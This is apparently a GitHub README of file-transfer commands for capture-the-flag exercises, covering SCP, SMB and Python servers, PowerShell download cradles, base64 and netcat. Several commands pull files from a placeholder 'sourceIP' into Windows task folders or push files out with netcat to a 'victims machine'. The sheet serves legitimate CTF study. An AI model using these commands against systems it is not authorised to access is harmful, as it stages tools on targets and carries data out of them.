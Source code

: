 # File-Transfer
## Collection of File Transfer possibilities

In some CTF's it is useful to have a Plan B if you need to transfer a file from or to a remote machine.

## SCP
The bestcase scenario is scp over a SSH connection.
```bash
scp user@sourceIP:/PATH/file.ext user@destinationIP:/PATH/file.ext
```

## SMBserver
Start a SMBserver in you current directory [.] to copy & paste files back and forth.
```bash
sudo impacket-smbserver -smb2support share[NAME] .[/PATH] 
```
Copy from Windows Target
```bash
copy .\file.ext \\SMBserverIP\share\file.ext
```
Copy to a Windows Target
```bash
copy \\SMBserverIP\share\file.ext .\file.ext
```
Make sure to stop the SMBserver after transfer because everybody in that network has access to your SMBserver.

## Python Server
It is also possible to start a Python3 http.server and transfer some files with wget or IWR. <br>
At the Source
```bash
python3 -m http.server 8080
```
At the destination Linux
```bash
wget http://sourceIP:8080/file.ext
curl http://sourceIP:8080/file.ext -o /PATH/file.ext
```
At the destination Windows
```bash
powershell.exe IEX(New-Object Net.WebClient).DownloadFile('http://sourceIP/file.ext','C:\Windows\Tasks\file.ext')
iwr "http://sourceIP/file.ext" -outfile "C:\Windows\Tasks\file.ext"
```
## HTML
If your target has a public facing Webpage you can use it to download the files.
```bash
cp file.ext /var/www/html/
chmod 0777 /var/www/html/file.ext
http://source.URL/file.ext
```

## Base64
If all else fails, there is always plan B. <br>
Convert a file or program to a Base64 string copy & paste it to the Target and deconvert it. <br>
<br>
On Linux
```bash
base64 file.ext > fileb64.txt
cat fileb64.txt
```
On Windows
```bash
[convert]::ToBase64String((Get-Content -path "file.ext" -Encoding byte))
```
Copy the Base64 string, create a file in any Text-Editor and decode it on the victims machine.
On Linux
```bash
vim string.b64
base64 -d sting.b64 > file.ext
```
On Windows
```bash
[IO.File]::WriteAllBytes("C:\Windows\System32\Tasks\file.ext", [convert]::FromBase64String(("BASE64-STRING"))
```

## netcat
Simple sending <br>
<br>
On receiving Machine
```bash
nc -lvnp 8002 > file.txt
```
On the sending Machine
```bash
nc -w 3 <RECEIVER IP> 8002 < file.txt
```
